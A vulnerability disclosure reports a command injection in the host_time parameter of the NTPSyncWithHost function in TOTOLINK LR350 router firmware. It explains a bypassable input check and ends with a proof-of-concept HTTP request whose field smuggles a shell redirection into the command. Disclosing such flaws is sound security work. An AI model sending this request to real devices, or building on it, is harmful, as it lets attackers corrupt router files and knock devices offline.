 # TOTOLINK LR350 V9.3.5u.6369_B20220309 command injection

### Product Information

Product: TOTOLINK LR350  Firmware Version: V9.3.5u.6369_B20220309  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html

### Analysis

TOTOLINK LR350 V9.3.5u.6369_B20220309 were discovered to contain a command injection vulnerability in the **NTPSyncWithHost** function via the **host_time** parameter. 

The Validity_check function checks the user's packet data, but it is only valid for a specific string and can be bypassed with an unspecified string.

For example, redirections (>, <) can corrupt critical files inside the filesystem, which can lead to a DoS.

![image-20240601190217272](./image-20240601190217272.png)

### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close

{"topicurl":"NTPSyncWithHost","verify":"0","host_time":"2024' > test'"}
```

